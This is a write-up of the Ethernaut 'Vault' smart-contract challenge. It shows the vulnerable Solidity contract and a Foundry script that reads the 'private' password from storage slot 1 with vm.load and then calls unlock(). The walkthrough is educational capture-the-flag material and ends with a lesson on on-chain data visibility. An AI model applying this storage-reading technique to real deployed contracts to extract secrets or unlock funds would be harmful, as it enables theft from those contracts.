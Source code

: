 # Level 8 - Vault ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/8" %}

### Level Setup

{% hint style="info" %}
Unlock the vault to pass the level!
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Vault.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```
{% endcode %}

### Exploit

Private variable aren't secret, they are just not accessible by other smart contracts directly during smart contract execution. They can be read directly from the storage slots.

1. Use foundrys `vm.load` cheatcode to get the data in the slot.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-8

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-8

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level8.s.sol" %}

{% code title="script/Level8.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IVault {
    function unlock(bytes32 _password) external;
}

// ================================================================
// │                          LEVEL 8 - VAULT                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IVault targetContract = IVault(targetContractAddress);

        bytes32 password = vm.load(targetContractAddress, bytes32(uint256(1)));
        console.log("Password: %s", bytesToString(password));

        vm.startBroadcast();
        targetContract.unlock(password);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
{% endhint %}

### Notes

*
